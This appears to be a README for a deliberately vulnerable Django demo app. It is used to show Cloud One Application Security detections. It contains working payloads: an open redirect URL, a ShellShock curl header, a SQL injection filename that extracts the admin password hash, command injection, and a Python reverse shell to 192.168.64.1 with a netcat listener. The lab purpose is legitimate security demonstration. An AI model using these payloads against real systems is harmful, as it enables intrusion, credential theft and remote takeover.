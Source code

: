 # Instructions for exploiting vulnerabilities in the djangonv app

## Cloud One Application Security Policy

Before beginning, some adjustments need to be made to the Cloud One Application Security policy in order to allow some of the (poorly written) code to run:

In the Policies section of your application group, click the 'configure policy' icon that corresponds to 'Open Redirect'.

In the Open Redirect Policy Configuration, click the '+' and add a rule to allow redirections that occur naturally within the application.

For example, if you're running the application on http://127.0.0.1:8000, add a rule that looks like this:

http://127.0.0.1:8000/*

You can, then, enter text to preview the match with:

http://127.0.0.1:8000/taskManager/login
-or-
http://127.0.0.1:8000/taskManager/logout 

Also, for SQL Injection, click the 'configure policy' icon and enable the algorithms of interest.

## Exploits

### Open Redirect Vulnerability

The /taskManager/logout endpoint is susceptible to an open redirect.
Threat actors can leverage these types of vulnerabilities to redirect the user's browser to a URL of their choice.  
The typical exploit vector is via a malicious embedded link in an email.

Demonstrate the vulnerability by pasting the following into the browser's URL space:
```
http://127.0.0.1:8000/taskManager/logout?redirect=http://www.yahoo.com
```

### Malicious Payload (Intrusion Prevention)
Open a terminal window and paste in the following (ShellShock) exploit:
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000
```
Note: The application doesn't actually suffer from the ShellShock vulnerability.  But, App Protect's Malicious Payload algorithms will pick up on the attempts.
### Remote Command Execution

To trigger a Remote Command Execution (that's actually both a RCE and SQLi..), do this:

1. Go to http://127.0.0.1:8000/ and click "Login"

2. Login to the application
```
user / user123
```
3. Click the link for the "demo project".

4. Click the "Add files" link.  

5. Pick any file from your local computer, and use the following payload for the filename:
```
'||(SELECT password FROM auth_user WHERE username='admin')||'
```
Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

### OS Command Injection:

In the same place as in for the attack above ("My Projects" --> project you created, add files).
Also pick any file from your local computer, but for the payload use:

An innocent sleep statement (to demonstrate that we can run any command):
```
some_file_name; sleep 1m
```
You'll notice that (without App Protect), the browser will "sleep" for 1 minute.

For a more "interesting" demonstration, you can inject a python reverse shell.  Reverse shells are commonly used to remotely control the locally exploited application.

Also in the same location within the application, pick any file from your local computer, but for the payload use:
```
some_file_name; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.1",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Note:  You'll need to set up a listener on an external host in order for this reverse shell to actually connect.  In this case the host is at 192.168.64.1 and is listening on port 8001.

For example:
```
nc -nvlp 8001
```
Note:  netcat syntax may vary from system to system.

